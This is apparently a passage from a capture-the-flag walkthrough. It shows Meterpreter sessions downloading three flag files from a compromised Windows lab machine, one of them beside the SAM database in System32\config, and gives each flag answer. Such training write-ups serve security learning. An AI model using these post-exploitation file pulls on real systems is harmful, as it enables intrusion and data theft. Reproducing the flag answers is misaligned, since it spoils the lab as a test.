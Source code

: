 ```
    meterpreter > download c:\\flag1.txt
    [*] Downloading: c:\flag1.txt -> flag1.txt
    [*] Downloaded 24.00 B of 24.00 B (100.0%): c:\flag1.txt -> flag1.txt
    [*] download   : c:\flag1.txt -> flag1.txt
```
FLAG: flag{access_the_machine}

### 2 Flag2? Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen.

```
meterpreter > download c:\\Windows\\System32\\config\\flag2.txt
[*] Downloading: c:\Windows\System32\config\flag2.txt -> flag2.txt
[*] Downloaded 34.00 B of 34.00 B (100.0%): c:\Windows\System32\config\flag2.txt -> flag2.txt
[*] download   : c:\Windows\System32\config\flag2.txt -> flag2.txt
```

FLAG: flag{sam_database_elevated_access}

### 3 Flag3?

```
meterpreter > download c:\\Users\\Jon\\Documents\\flag3.txt
[*] Downloading: c:\Users\Jon\Documents\flag3.txt -> flag3.txt
[*] Downloaded 37.00 B of 37.00 B (100.0%): c:\Users\Jon\Documents\flag3.txt -> flag3.txt
[*] download   : c:\Users\Jon\Documents\flag3.txt -> flag3.txt
```

FLAG: flag{admin_documents_can_be_valuable}
